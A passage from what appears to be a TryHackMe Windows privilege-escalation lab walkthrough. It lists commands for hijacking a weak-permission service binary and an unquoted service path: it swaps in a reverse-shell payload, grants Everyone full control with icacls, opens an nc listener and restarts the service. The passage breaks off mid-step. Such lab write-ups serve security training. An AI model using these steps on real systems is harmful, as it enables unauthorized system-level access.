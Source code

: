 and change the name of one of our "**rev-svc.exe**" to the service name.

```shell
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
```

Now grant full permissions to the file as well.

```shell
icacls WService.exe /grant Everyone:F
```

Open a listener on your attack box.

```bash
nc -lvp 4445
```

Now stop and start the service on the windows box.

```shell
sc stop windowsscheduler
```

```shell
sc start windowsscheduler
```

You should now have a shell. The flag is in svcusr1 desktop.

---
#### unquoted service paths

For this we will be exploiting the "**disk sorter enterprise**" service.

Read through the task to better understand what we will be doing.

Now to solve the problem we will copy the payload we just made "**rev-svc.exe**" and use one of them as our reverse shell instead of making another.

Now move the payload to the "**MyPrograms**" directory under the name Disk.exe.

```shell
move C:\Users\thm-unpriv\rev-svc.exe C:\MyPrograms\Disk.exe
```

and give it full permissions.

```shell
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Now setup your listener.

```bash
nc -lvp 4445
```

Now like before stop and start the service.

```shell
sc stop "disk sorter enterprise" 
```
